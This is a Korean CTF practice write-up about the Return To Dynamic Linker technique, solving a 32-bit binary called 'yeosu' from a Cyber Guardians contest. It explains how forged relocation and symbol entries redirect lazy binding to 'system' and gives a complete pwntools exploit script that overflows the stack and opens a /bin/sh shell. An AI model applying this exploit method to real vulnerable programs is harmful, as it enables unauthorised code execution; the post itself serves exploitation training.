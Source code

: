 ```yaml
---
layout: post
title: RTDL(Return To Dynamic Linker) 연습
author: hOwDayS
---
```




<h3>이 글은 사전 plt , got 이 어떤 원리로 되는지 알아야 합니다.</h3>

*https://bpsecblog.wordpress.com/2016/03/07/about_got_plt_1/*

<br>

RTDL 를 연습하기 위해 사이버가디언즈 5차때의 문제를 가져왓습니다~~

<br>

<br>

현장에서 풀때는 ssh로 접속하고 aslr도 안되어 있는 환경이어서 시스템주소 구하고 RET에 넣으면 되는 간단한 문제입니다.

__하지만__ 로컬에서는 RTDL 즉 __Return To Dynamic Linker__ 를 이용해야 합니다.

<br>

그래서 RTDL 연습할 겸 기법을 이용해 풀어보겠습니다

<br>

<br>

![image](../img/2018-11-19-yeosu/1.png)

<br>

<br>

​    Arch:     i386-32-little

​    RELRO:    Partial RELRO

​    Stack:    No canary found

​    NX:       NX enabled

​    PIE:      No PIE (0x8048000)

<br>

<br>

바이너리는 간단합니다. 입력 받고 끝입니다.

RTDL은 FAKE_ELF32_SYMBOL 과 DYNSTR , DYNSYM , JMPREL , RELOC_OFFSET를 이용해야 합니다.

<br>

간단하게 설명하자면

![image](../img/2018-11-19-yeosu/2.png)

<br>

위 사진에 보이는 read@plt에서 push 하는 값이 RELOC_OFFSET 입니다.

![image](../img/2018-11-19-yeosu/3.png)

<br>

이 RELOC_OFFSET를 이용해서 해당 read@plt의 JMPREL를 계산하고 

또 이걸 이용해서 밑 사진처럼 ELF32_SYMBOL에 있는 문자열을 함수 이름을 찾습니다.

 ![image](../img/2018-11-19-yeosu/4.png)

<br>

마지막으로 이 함수 이름을 통해서 라이브러리에서 함수를 불러오고 read@got에 

저장하는 원리입니다.

<br>

그럼 여기서 문자열만 조작하면 원하는 함수를 호출할 수 있다~~

<br>

yeosu 익스플로잇 코드

```python
from pwn import *

p = process("./yeosu")
#p = remote("localhost",8888)
e = ELF("./yeosu")

main = 0x804847B
pr = 0x0804851b
ppr = 0x0804851a
pppr = 0x08048519

dynstr = 0x0804823c
dynsym  = 0x080481cc
dynamic = 0x08048320
jmprel = 0x80482d0

fake_sym = e.bss()+24

fake_ELF32_SYM_addr = e.bss()+80 -  dynstr

string = "system\x00"

#fake reloc offset
rel_addr = e.bss()+100
reloc_offset = rel_addr - jmprel 

#fake geteuid ELF 32_REL
fake_relst  = p32(e.got["geteuid"])
fake_relst += p32(0x1e707) #fake_sym - dynsym 

#fake ELF32_SYM
fake_ELF32_SYM = p32(fake_ELF32_SYM_addr)

#exploit


binsh = "A"*0x26
binsh += p32(e.plt["read"])
binsh += p32(pppr)
binsh += p32(0)
binsh += p32(e.bss()+1000)
binsh += p32(0x100)
binsh += p32(main)


#symtab
payload = "A"*0x26
payload += p32(e.plt["read"])
payload += p32(pppr)
payload += p32(0)
payload += p32(fake_sym)
payload += p32(0x100)


#system
payload += p32(e.plt["read"])
payload += p32(pppr)
payload += p32(0)
payload += p32(e.bss()+80)
payload += p32(0x100)
payload += p32(main)

payload2 = "A"*0x26

payload2 += p32(e.plt["read"])
payload2 += p32(pppr)
payload2 += p32(0)
payload2 += p32(rel_addr)
payload2 += p32(0x100)

payload2 += p32(dynamic)
payload2 += p32(reloc_offset)
payload2 += p32(main)
payload2 += p32(e.bss()+1000)

assert(len(payload)<=0x64)
assert(len(payload2)<=0x64)

#raw_input()
p.send(binsh)
sleep(0.3)
p.send("/bin/sh\x00")
sleep(0.3)
p.send(payload)
sleep(0.3)
p.send(fake_ELF32_SYM)
sleep(0.3)
p.send("system\x00")
sleep(0.3)
p.sendline(payload2)
sleep(0.3)
p.sendline(fake_relst)

p.interactive()
```

